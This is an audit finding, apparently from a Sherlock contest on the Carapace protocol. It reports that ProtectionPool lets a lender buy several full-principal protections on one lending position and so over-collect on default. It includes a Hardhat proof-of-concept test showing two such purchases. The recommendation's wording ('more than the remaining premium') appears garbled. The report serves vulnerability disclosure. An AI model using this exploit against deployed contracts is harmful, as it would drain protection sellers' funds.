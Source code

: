 immeas

high

# a buyer of protection can overprotect their position

## Summary
ProtectionPool limits single protections to not be over the limit of the remaining principal for the position. But there's nothing stopping a lender to do multiple protections of the full amount for the same position as long as they stay within leverage limit.

## Vulnerability Detail
In `ReferenceLendingPools.sol` there's a check that the requested protection amount is not above the remaining principal for the position:
```solidity

159:    /// Verify that protection amount is less than or equal to the remaining principal
160:    /// that buyer has lent to the underlying lending pool
161:    return
162:      _purchaseParams.protectionAmount <=
163:      calculateRemainingPrincipal(
164:        _purchaseParams.lendingPoolAddress,
165:        _buyer,
166:        _purchaseParams.nftLpTokenId
167:      );
```
However, there's never a check that there are no previous protections against the same position. So a lender that knows that a loan is going to default can overprotect their position as much as they want, provided they stay within leverage limits.


PoC, insert at row 505 in `ProtectionPool.test.ts`
```javascript
        it("... can overprotect a position", async() => {
          const before = await network.provider.send("evm_snapshot", []);

          // full position
          const remainingPrincipal = await referenceLendingPools.calculateRemainingPrincipal(_lendingPool2,await _protectionBuyer1.getAddress(),590);

          await expect((await protectionPool.getActiveProtections(await _protectionBuyer1.getAddress())).length).to.be.eq(0);

          // make sure there are sellers of protection
          await transferAndApproveUsdcToPool(deployer, remainingPrincipal.mul(2));
          await protectionPool
            .connect(deployer)
            .deposit(remainingPrincipal.mul(2), deployerAddress);

          // move phase
          await expect(protectionPool.connect(deployer).movePoolPhase())
            .to.emit(protectionPool, "ProtectionPoolPhaseUpdated").withArgs(1);
          expect((await protectionPool.getPoolInfo()).currentPhase).to.eq(1);

          await USDC.connect(_protectionBuyer1).approve(protectionPool.address,parseUSDC("20000"));

          // buy first protection for full amount
          await protectionPool.connect(_protectionBuyer1).buyProtection(
            {
              lendingPoolAddress: _lendingPool2,
              nftLpTokenId: 590,
              protectionAmount: remainingPrincipal,
              protectionDurationInSeconds: getDaysInSeconds(30)
            },
            parseUSDC("10000")
          );

          // buy second protection, this can go on for as long as leverage is above min (and can pay principal)
          await protectionPool.connect(_protectionBuyer1).buyProtection(
            {
              lendingPoolAddress: _lendingPool2,
              nftLpTokenId: 590,
              protectionAmount: remainingPrincipal,
              protectionDurationInSeconds: getDaysInSeconds(30)
            },
            parseUSDC("10000")
          );

          // two protections
          await expect((await protectionPool.getActiveProtections(await _protectionBuyer1.getAddress())).length).to.be.eq(2);

          expect(await network.provider.send("evm_revert", [before])).to.be.eq(true);
        });
```

## Impact
If a lender have a hunch a loan is going to default they can overprotect their position so when the loan defaults they can get paid out more than they were lending out.

## Code Snippet
https://github.com/sherlock-audit/2023-02-carapace/blob/main/contracts/core/pool/ReferenceLendingPools.sol#L159-L167


## Tool used
Manual Review, hardhat

## Recommendation
I recommend that you check that the requested protection amount is more than the remaining premium and also add previous active protections against the same position (`nftLpTokenId`)